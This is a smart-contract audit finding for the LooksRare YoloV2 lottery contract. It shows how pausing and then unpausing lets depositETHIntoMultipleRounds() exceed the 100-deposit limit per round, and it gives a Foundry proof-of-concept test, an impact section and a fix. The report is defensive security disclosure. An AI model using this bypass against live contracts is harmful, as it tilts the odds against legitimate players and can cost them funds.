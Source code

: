 Breezy Ebony Whale

medium

# Maximum number of deposits per round bypass possible after unpause

## Summary

The solution is implemented to allow only certain number of deposits to be done per each round. So players must adjust their tactic to this limitation. However, this condition can be bypassed in certain scenario. Whenever next, not `Open` round has maximum number of deposits done and the solution is paused by the owner before the `fulfillRandomWords()` function is executed, the `_startRound()` function will not attempt to draw winner for such round. Then, subsequent calls to the `depositETHIntoMultipleRounds()` function can be done to add more deposits, exceeding the limits due to insufficient validation within the `_shouldDrawWinner()` function. As a result, malicious players are granted possibility to invest more Ether within such round whenever they consider it potentially beneficial, decreasing chances of legitimate players for winning. Additionally, deposit of NFT or ERC20 tokens via the `deposit()` function will not be possible anymore in such round. Eventually, malicious players can extend this situation on future rounds by making deposits by means of the `depositETHIntoMultipleRounds()` function.

## Vulnerability Detail

Firstly, the solution defines constant representing the maximum number of deposits per round possible.

[YoloV2.sol#L81](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L81)
```solidity
[...]
    uint256 private constant MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND = 100;
[...]
```

Secondly, the constant is used within the `_deposit()` function to prevent multiple, exceeding limit deposits. However, there is no similar check within the `depositETHIntoMultipleRounds()` function.

[YoloV2.sol#L1221-L1223](https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1221-L1223)
```solidity
[...]
        if (roundDepositCount > MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND) {
            revert MaximumNumberOfDepositsReached();
        }
[...]
```

Within the `depositETHIntoMultipleRounds()` and `_startRound()`  functions the `_shouldDrawWinner()` function is called. This functions checks whether `roundDepositCount` is equal to `MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND`.

[YoloV2.sol#L1711C1-L1719C6](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L1711C1-L1719C6)
```solidity
    function _shouldDrawWinner(
        uint256 numberOfParticipants,
        uint256 maximumNumberOfParticipants,
        uint256 roundDepositCount
    ) private pure returns (bool shouldDraw) {
        shouldDraw =
            numberOfParticipants == maximumNumberOfParticipants ||
            (numberOfParticipants > 1 && roundDepositCount == MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND);
    }
```

Whenever  the `fulfillRandomWords()` function is executed and the contract is in the `paused` state the next round is automatically opened, but no attempt to draw winner is made.

[YoloV2.sol#L965](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L965)
```solidity
[...]
            if (
                !paused() &&
                _shouldDrawWinner(numberOfParticipants, round.maximumNumberOfParticipants, round.deposits.length)
            ) {
                _drawWinner(round, roundId);
            } else {
[...]
```

Afterwards, assuming that this round had made 100 deposits and the contract is in the `unpaused` state again, players can add more deposits within this round by means of the `depositETHIntoMultipleRounds()` function. The validation within the `_shouldDrawWinner()` function is ineffective as `roundDepositCount` would have a number larger than 100 in such case.
Also, future rounds can have exceeding number of deposits added, as validation checks only present, `Open` round.

## Proof of Concept

In this PoC, first player deposits 1 Ether into first and second round and 10 ether into third round. The malicious player makes 99 deposits in these rounds, mainly focusing on third round.  As the number of deposits within first round reaches the limit, it changes into to `Drawing` state.  At this point the owner pauses the contract.  The `rawFulfillRandomWords()` is called to close first round, however, it does not impact second round due to `paused` state. The owner unpauses the contract.  Malicious player calls `depositETHIntoMultipleRounds()` again and successfully makes 101st deposit into second and third round. 

```solidity
function test_gsec_depositETHIntoMultipleRounds_bypass_number_of_deposits_after_pause() public {
        uint256[] memory amounts = new uint256[](3);
        amounts[0] = 1 ether;
        amounts[1] = 1 ether;
        amounts[2] = 10 ether;

        vm.deal(user1, 12 ether); 
        vm.prank(user1);
        yolo.depositETHIntoMultipleRounds{value: 12 ether}(amounts);

        amounts[0] = 0 ether;
        amounts[1] = 0 ether;
        amounts[2] = 2 ether / 100; 

        for (uint256 i = 0; i < 99; i++) {
            vm.deal(user2, 2 ether / 100);
            vm.prank(user2);
            yolo.depositETHIntoMultipleRounds{value: 2 ether / 100}(amounts);
        }

        (IYoloV2.RoundStatus status,,,,,uint40 numberOfParticipants,address winner,uint96 valuePerEntry,uint256 protocolFeeOwed,IYoloV2.Deposit[] memory deposits) = yolo.getRound(1);

        assertEq(deposits.length, 100, "number of deposits");
        assertEq(uint8(status), uint8(IYoloV2.RoundStatus.Drawing));

        vm.prank(owner);
        yolo.togglePaused();

        uint256[] memory randomWords = new uint256[](1);
        randomWords[0] = 69_420;

        expectEmitCheckAll();
        emit RoundStatusUpdated(1, IYoloV2.RoundStatus.Drawn);

        vm.prank(VRF_COORDINATOR);
        VRFConsumerBaseV2(yolo).rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID, randomWords);

        vm.prank(owner);
        yolo.togglePaused();
        (status,,,,,numberOfParticipants,winner,valuePerEntry,protocolFeeOwed,deposits) = yolo.getRound(2);

         assertEq(deposits.length, 100, "number of deposits");
        assertEq(uint8(status), uint8(IYoloV2.RoundStatus.Open));

        IYoloV2.DepositCalldata[] memory depositsCalldata;
        vm.deal(user2, 2 ether / 100); 
        vm.prank(user2);
        vm.expectRevert(IYoloV2.MaximumNumberOfDepositsReached.selector);
        yolo.deposit{value: 2 ether / 100}(2, depositsCalldata);

        amounts[0] = 0 ether;
        amounts[1] = 2 ether / 100; 
        amounts[2] = 0 ether;

        vm.prank(user2);
        yolo.depositETHIntoMultipleRounds{value: 2 ether / 100}(amounts);

        (status,,,,,numberOfParticipants,winner,valuePerEntry,protocolFeeOwed,deposits) = yolo.getRound(2);

        assertEq(deposits.length, 101, "number of deposits");
        assertEq(uint8(status), uint8(IYoloV2.RoundStatus.Open));

        (status,,,,,numberOfParticipants,winner,valuePerEntry,protocolFeeOwed,deposits) = yolo.getRound(3);

        assertEq(deposits.length, 101, "number of deposits");
        assertEq(uint8(status), uint8(IYoloV2.RoundStatus.None));
    }
```

## Impact

- Malicious players are granted possibility to invest more Ether within impacted round whenever they consider it potentially beneficial, decreasing chances of legitimate players for winning.
- Deposit of NFT or ERC20 tokens via the `deposit()` function will not be possible anymore in impacted round.
- The bypass of deposits per round can be extended on future rounds by means of the  `depositETHIntoMultipleRounds()` function.

## Code Snippet

[YoloV2.sol#L1711C1-L1719C6](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L1711C1-L1719C6)

## Tool used

Manual Review, Foundry

## Recommendation

It is recommended to ensure that only certain number of deposits can be added by means of the `depositETHIntoMultipleRounds()` function. It is recommended to consider adding similar validation to the `depositETHIntoMultipleRounds()` as it is done within the `_deposit()` ([YoloV2.sol#L1221-L1223](https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1221-L1223)).